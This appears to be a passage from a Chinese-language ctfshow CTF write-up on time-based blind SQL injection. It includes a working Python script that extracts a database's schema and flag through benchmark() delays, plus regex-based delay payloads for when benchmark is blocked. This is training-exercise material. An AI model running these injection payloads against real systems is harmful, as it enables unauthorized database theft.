

那么脚本中我就利用 2s 来判定

```python
import requests
import string
from typing import Dict, Optional


# 配置参数

URL = "http://d737c2e8-9956-4921-a8bf-c8e9480880ef.challenge.ctf.show/api/index.php"

CHARS = string.digits + string.ascii_lowercase + '{}-_'

TIMEOUT = 3

BENCHMARK_COUNT = 3000000


def create_payload(query: str, position: int, char: str) -> Dict[str, str]:

    return {

        'debug': '1',

        'ip': f"if(substr({query},{position},1)='{char}',benchmark({BENCHMARK_COUNT},md5('YK')),0)"

    }


def inject_char(query: str, position: int) -> Optional[str]:

    """尝试注入单个字符"""

    for char in CHARS:

        payload = create_payload(query, position, char)

        try:

            response = requests.post(URL, data=payload, timeout=TIMEOUT)

            if response.elapsed.total_seconds() > 2:

                print(f"Found char at position {position}: {char}")

                return char

        except requests.RequestException as e:

            print(f"Error at position {position}: {e}")

            continue

    return None


def main():

    queries = {

        'database': "database()",

        'tables': "select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'",

        'columns': "select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_flagxccb'",

        'flag': "select flagaabc from ctfshow_flagxccb"

    }


    current_query = queries['flag']

    result = ''


    for position in range(1, 50):

        char = inject_char(current_query, position)

        if not char:

            break

        result += char

        print(f"Current result: {result}")


    print(f"\nFinal result: {result}")


if __name__ == "__main__":

    main()
```



### web218



相比上一题，不能用`benchmark`

`concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'`



实测达到 1.04s,后面有些时候会变 1

`(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) rlike concat(repeat('(a.*) ',6),'b'));`

还有笛卡尔积
